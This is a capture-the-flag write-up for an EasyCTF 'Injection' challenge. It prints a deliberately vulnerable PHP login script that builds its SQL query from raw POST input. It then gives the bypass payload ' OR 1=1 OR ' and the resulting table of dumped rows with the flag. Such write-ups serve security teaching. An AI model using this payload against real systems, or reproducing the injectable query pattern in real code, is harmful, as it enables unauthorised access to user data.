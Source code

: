 # 80 - Injection

*Written by Michael Zhang*

## Problem

This site seems to have some information we need. Unfortunately, it's protected by a login page. Help us get through the login system!

[Website](http://www.easyctf.com/sites/injection) - [Source](injection.phps)

## Hint

You might want to study up on some SQL syntax. How can we modify the query so it will always return true?

## Solution

Examine this bit of injection.phps carefully:

```php
<?php

error_reporting(0);

if (isset($_POST['submit']) && isset($_POST['username']) && isset($_POST['password']) && $_POST['submit'] == "Login") {
	echo "<table border='1'><tr><th>username</th><th>message</th></tr>";
	$username = $_POST['username'];
	$password = $_POST['password'];
	mysql_connect("xxxxxxxxx", "xxxxxxxxx", "xxxxxxxxx");
	@mysql_select_db("xxxxxxxxx") or die("can't select database");
	
	$query = "SELECT * FROM `xxxxxxxxx` WHERE username='$username' AND password='$password'";
	$result = mysql_query($query);
	while($row = mysql_fetch_array($result)) {
		echo "<tr><td>".$row['username']."</td><td>".$row['message']."</td></tr>";
	}
	echo "</table>";
}

?>
```

Notice the query string that fetches the data from the database.

```
$query = "SELECT * FROM `xxxxxxxxx` WHERE username='$username' AND password='$password'";
```

If we set username to `' OR 1=1 OR '`, then the query string would look like

```
$query = "SELECT * FROM `xxxxxxxxx` WHERE username='' OR 1=1 OR '' AND password='whatever'";
```

Since 1 always equals 1, the condition will always be satisfied, so the script pulls all rows out of the database.

|username|message|
|---|---|
|admin|hi|
|flag|kids_dont_code_like_this_at_home|





